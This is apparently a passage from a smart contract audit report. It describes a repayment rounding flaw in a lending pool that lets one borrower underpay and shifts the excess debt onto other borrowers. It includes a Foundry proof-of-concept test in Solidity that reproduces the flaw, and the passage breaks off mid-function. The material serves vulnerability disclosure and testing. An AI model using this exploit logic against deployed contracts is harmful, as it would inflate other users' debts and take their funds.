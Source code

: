 After shares are paid off at a discount, the excess money owed is amortized across other users, increasing their borrow balance owed independent of interest being accrued.

### Proof of Concept

The following test can be dropped into `SdpBorrowTest.t.sol`. It consists of two users who deposit funds into a position and borrow tokens. After time has passed, the first user repays their loan. Because of rounding issues, the result is that the user underpays, while the other user's debt balance doubles.

Note that the `_deployPool()` function must be edited to use a rate other than 0 for this simulation to work. In this case, I used 1e18.

```solidity
function testZach_RepayRoundsUp() public {
    // start the pool with sufficient tokens to borrow
    erc20Borrow.mint(address(this), 1e18);
    erc20Borrow.approve(address(pool), type(uint256).max);
    pool.deposit(1e18, address(this));

    // set up our primary user
    address user1 = makeAddr("user1");
    erc20Collat.mint(user1, 1e18);
    erc20Borrow.mint(user1, 1e18); // have extra funds to pay interest
    address user1PosAddr = _createPositionDepositAndBorrow(user1, 1e18, 1, bytes32("User1SingleDebtPosition"));

    // borrow from another user so we end up with rounding in calculations
    vm.warp(block.timestamp + 26 weeks);
    address user2 = makeAddr("user2");
    erc20Collat.mint(user2, 1e18);
    erc20Borrow.mint(user2, 1e18);
    address user2PosAddr = _createPositionDepositAndBorrow(user2, 1e18, 1, bytes32("User2SingleDebtPosition"));

    vm.warp(block.timestamp + 26 weeks);
    uint u1Before = pool.getBorrowsOf(address(user1PosAddr));
    uint u2Before = pool.getBorrowsOf(address(user2PosAddr));
    console2.log("User 1 Before: ", u1Before);
    console2.log("User 2 Before: ", u2Before);

    bytes memory data = abi.encode(address(pool), 1);
    Action memory repayAction = Action({op: Operation.Repay, data: data});
    vm.prank(user1);
    positionManager.process(address(user1PosAddr), repayAction);

    uint u1After = pool.getBorrowsOf(address(user1PosAddr));
    uint u2After = pool.getBorrowsOf(address(user2PosAddr));
    console2.log("User 1 Before: ", u1After);
    console2.log("User 2 Before: ", u2After);
}

function _createPositionDepositAndBorrow(address user, uint depAmt, uint borrowAmt, bytes32 salt) internal returns (address) {
    vm.startPrank(user);
    erc20Collat.approve(address(positionManager), type(uint256).max);
    erc20Borrow.approve(address(positionManager), type(uint256).max);

    address positionAddr = portfolioLens.predictAddress(0x1, salt);
    bytes memory newPosdata = abi.encode(user, 0x1, salt);
    Action memory newPosAction = Action({op: Operation.NewPosition, data: newPosdata});

    bytes memory depositData = abi.encode(user, address(erc20Collat), depAmt);
    Action memory depositAction = Action({op: Operation.Deposit, data: depositData});

```